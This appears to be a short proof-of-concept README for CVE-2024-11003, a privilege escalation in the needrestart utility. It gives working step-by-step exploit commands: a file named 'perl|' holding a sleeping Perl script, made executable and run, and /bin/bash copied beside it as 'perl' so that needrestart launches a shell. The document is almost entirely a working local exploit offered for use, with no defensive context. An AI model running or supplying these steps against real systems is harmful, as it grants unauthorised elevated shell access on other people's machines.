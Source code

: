 # CVE-2024-11003

## Steps to Exploit

### 1. Create a Perl script
Create a file named `perl|` and add the following code:

```perl
#!/usr/bin/perl

sleep(3600)
```

### 2. Make the file executable
Use the following command to make the file executable:

```bash
chmod +x perl\|
```

### 3. Run the script
Execute the script:

```bash
./perl\|
```

### 4. Copy `/bin/bash` to the same directory
Copy the `bash` binary to the same directory and rename it as `perl`:

```bash
cp /bin/bash perl
```

### 5. Wait for needrestart
Once needrestart starts, you will get a shell.
